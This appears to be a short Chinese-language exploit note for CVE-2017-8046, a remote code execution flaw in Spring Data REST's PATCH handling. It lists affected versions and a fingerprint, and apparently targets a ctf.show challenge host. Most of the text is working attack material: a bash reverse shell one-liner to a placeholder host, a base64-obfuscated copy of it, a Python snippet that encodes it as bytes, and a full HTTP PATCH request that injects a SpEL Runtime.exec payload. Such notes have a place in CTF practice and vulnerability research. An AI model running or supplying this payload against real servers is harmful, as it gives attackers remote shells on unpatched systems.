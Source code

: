 CVE-2017-8046
Spring-data-rest服务器在处理PATCH请求时，攻击者可以构造恶意的PATCH请求并发送给spring-date-rest服务器，通过构造好的JSON数据来执行任意Java代码。


Spring Data REST versions < 2.5.12, 2.6.7, 3.0 RC3
Spring Boot version ≤ 2.0.0M4
Spring Data release trains < Kay-RC3

特征spring，有/api目录
响应如：
```
{
"_links": {
"people": {
"href": "https://xx/api/people{?page,size,sort}",
"templated": true
}
```

漏洞利用
```
bash -i >& /dev/tcp/ip/port 0>&1
base64一下：

# 自己改弹shell的命令
payload = b'bash -c {echo,YmFzaCAtaSAmPi9kZXYvdGNwL3gueC54LngvMjMzMyA8JjE=}|{base64,-d}|{bash,-i}'

# 将payload转换为字节码字符串
bytecode = ','.join(str(i) for i in list(payload))

# 打印字节码字符串
print(bytecode)
```
```
PATCH /api/people/1 HTTP/1.1
Host: 81f61eb8-42bb-4423-824c-88573a92ebaa.challenge.ctf.show:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/json-patch+json
Upgrade-Insecure-Requests: 1
Content-Length: 440

[
    {
        "op": "replace",
        "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{上面生成的一串数字}))/lastName",
        "value": "vulhub"
    }
]
```